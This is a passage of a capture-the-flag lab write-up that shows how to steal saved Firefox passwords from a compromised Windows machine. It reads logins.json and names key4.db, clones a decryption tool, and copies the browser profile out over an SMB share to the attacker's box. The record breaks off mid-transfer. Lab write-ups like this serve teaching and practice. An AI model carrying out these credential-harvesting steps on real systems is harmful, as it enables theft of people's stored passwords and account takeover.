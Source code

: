 ```
05/14/2020  10:45 PM    <DIR>          sessionstore-backups
05/14/2020  10:45 PM            12,889 sessionstore.jsonlz4
04/21/2020  05:00 PM                18 shield-preference-experiments.json
05/14/2020  10:45 PM             1,357 SiteSecurityServiceState.txt
04/21/2020  05:00 PM    <DIR>          storage
05/14/2020  10:45 PM             4,096 storage.sqlite
04/21/2020  05:00 PM                50 times.json
05/14/2020  10:45 PM                 0 TRRBlacklist.txt
04/21/2020  05:00 PM    <DIR>          weave
04/21/2020  05:02 PM            98,304 webappsstore.sqlite
05/14/2020  10:45 PM               140 xulstore.json
```

Also, according to their post, all passwords are stored in:

- key4.db
- logins.json

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>type logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"https://creds.com","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECL2tyAh7wW+dBAh3qoYFOWUv1g==","encryptedPassword":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECIcug4ROmqhOBBgUMhyan8Y8Nia4wYvo6LUSNqu1z+OT8HA=","guid":"{7ccdc063-ebe9-47ed-8989-0133460b4941}","encType":1,"timeCreated":1587502931710,"timeLastUsed":1587502931710,"timePasswordChanged":1589510625802,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

**Let's decrypt that encrypted password via [firefox_decrypt](https://github.com/unode/firefox_decrypt)!**

- Clone that repository:

```
┌──(root🌸siunam)-[/opt]
└─# git clone https://github.com/unode/firefox_decrypt.git
```

- Transfer the profile via SMB share:

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>net share

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share                     
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
Users        C:\Users
```

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>xcopy ljfn812a.default-release C:\Users\Share

┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# mkdir ljfn812a.default-release;cd ljfn812a.default-release

┌──(root🌸siunam)-[~/…/thm/ctf/Gatekeeper/ljfn812a.default-release]
└─# smbclient \\\\$RHOSTS\\Users
Password for [WORKGROUP\nam]:
Try "help" to get a list of possible commands.
smb: \> cd Share
smb: \Share\> prompt
smb: \Share\> timeout 60
io_timeout per operation is now 60
```